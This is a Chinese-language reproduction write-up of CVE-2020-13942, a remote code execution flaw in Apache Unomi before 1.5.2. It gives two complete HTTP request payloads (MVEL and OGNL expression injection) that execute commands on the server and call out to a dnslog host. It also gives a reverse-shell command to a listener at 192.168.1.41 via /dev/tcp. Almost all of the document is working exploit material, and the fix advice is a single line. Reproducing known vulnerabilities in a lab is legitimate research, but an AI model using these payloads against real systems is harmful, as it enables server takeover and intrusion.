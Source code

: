 # Apache Unomi远程代码执行漏洞复现-CVE-2020-13942

## 简介

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在Apache Unomi 1.5.1级以前版本中，存在一处表达式注入漏洞，远程攻击者通过MVEL和OGNL表达式即可在目标服务器上执行任意命令。

**CVE-2020-13942漏洞是对CVE-2020-11975漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，并在服务器执行任意代码**

## 影响版本

> Apache Unomi <1.5.2

## 漏洞复现

通过8181和9443两个端口均可触发漏洞，以下以8181为例。

有两种利用方式：

- 通过MVEL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 483
  
  {
      "filters": [
          {
              "id": "sample",
              "filters": [
                  {
                      "condition": {
                           "parameterValues": {
                              "test": "script::Runtime r = Runtime.getRuntime(); r.exec(\"ping 79jk3a.dnslog.cn\");"
                          },
                          "type": "profilePropertyCondition"
                      }
                  }
              ]
          }
      ],
      "sessionId": "sample"
  }
  ```

- 通过OGNL表达式执行任意命令：

  ```
  POST /context.json HTTP/1.1
  Host: localhost:8181
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
  Connection: close
  Content-Type: application/json
  Content-Length: 1064
  
  {
    "personalizations":[
      {
        "id":"gender-test",
        "strategy":"matching-first",
        "strategyOptions":{
          "fallback":"var2"
        },
        "contents":[
          {
            "filters":[
              {
                "condition":{
                  "parameterValues":{
                    "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"ping 79jk3a.dnslog.cn\"))",
                    "comparisonOperator":"equals",
                    "propertyValue":"male"
                  },
                  "type":"profilePropertyCondition"
                }
              }
            ]
          }
        ]
      }
    ],
    "sessionId":"sample"
  }
  ```

1. 运行如下命令启动一个Apache Unomi 1.5.1的服务器：`docker-compose up -d`

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/640.png)

2. 直接在首页抓包，把内容替换成上面任意一种POC即可

   目标出网测试

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/650.png)

3. 进行反弹shell，将`bash -i >& /dev/tcp/192.168.1.41/7777 0>&1`进行编码，地址：http://www.jackson-t.ca/runtime-exec-payloads.html

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/660.png)

4. 获取shell

![](./resource/Apache Unomi远程代码执行漏洞复现-CVE-2020-13942/media/670.png)

## 修复建议

更新最新版本
